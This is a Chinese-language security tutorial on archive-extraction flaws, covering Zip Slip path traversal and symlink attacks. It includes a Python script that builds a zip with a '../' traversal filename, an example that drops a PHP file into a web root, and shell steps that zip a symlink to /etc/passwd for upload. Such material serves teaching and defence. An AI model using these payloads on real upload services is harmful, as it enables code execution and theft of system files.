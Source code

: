 通过构造一个压缩包中带有`../`的压缩文件，上传后交给服务端应用程序进行解压，如果程序解压时没有对压缩包内的文件名进行合法性校验，而是直接将文件名拼接在待解压目录后面，导致可以将文件解压到正常解压缩路径之外，可能导致恶意文件的写入、覆盖替换可执行文件等，等待系统或用户调用恶意文件，从而实现代码执行（也可能是覆盖配置文件或其他敏感文件）。

可能的压缩包格式后缀包括：

```
tar		jar		war		cpio		apk		rar		7z
```



**本质：** 没有对压缩包中的文件名进行合法性校验，直接将文件名拼接到待解压目录中，导致存在路径遍历风险。

**举例：** 若解压目录为`/webapp/web/`，给文件命名为：`../../var/www/html/1.php`并压缩，那么文件解压后，通过直接拼接文件名为`/webapp/web/../../var/www/html/1.php`，因此最终就会存放到`/var/www/html/1.php`中，如果能访问并解析，那么就能成功代码执行。

**利用：** [zip-slip-vulnerability](https://github.com/snyk/zip-slip-vulnerability) 项目包含了有关此攻击的所有信息，例如受影响的库、项目和其他相关信息。

**构造代码：**

&gt; 也可以用别人写好的工具：https://github.com/ptoomey3/evilarc

```python
import zipfile
# the name of the zip file to generate
zf = zipfile.ZipFile(&#39;out.zip&#39;, &#39;w&#39;)
# the name of the malicious file that will overwrite the origial file (must exist on disk)
fname = &#39;zip_slip.txt&#39;
#destination path of the file
zf.write(fname, &#39;../../../../../../../../../../../../../../../../../../../../../../../../tmp/zip_slip.aaa&#39;)
```



### Symlinks attack

tar/zip 允许压缩包中包含符号链接。符号链接是一种链接到另一个文件的特殊文件。通过上传包含符号链接的 ZIP，并在解压 ZIP 后，可以通过访问符号链接以访问到原本无法访问的文件。为此，需要让符号链接指向 Web 根目录之外的文件，例如“/etc/passwd”。

这些类型的问题通常是在开发人员允许上传 ZIP 文件时发现的。当用户在应用程序中上传恶意 ZIP 文件时，它只会获取 ZIP 文件并将其提取出来，而不会进行任何进一步的验证。

例如：

- [facebook 本地文件读取](https://josipfranjkovic.blogspot.com/2014/12/reading-local-files-from-facebooks.html)
- [CVE-2016-9086-读取应用服务器上的文件，导致 RCE](https://hackerone.com/reports/178152)

```sh
1. 创建一个符号链接文件指向/etc/passwd 
ln -s /etc/passwd link 

2. 压缩文件，同时保留链接 
zip --symlinks test.zip link 

3. 上传test.zip文件，系统会自动解压缩 

4. 页面当中会返回/etc/passwd的内容
```
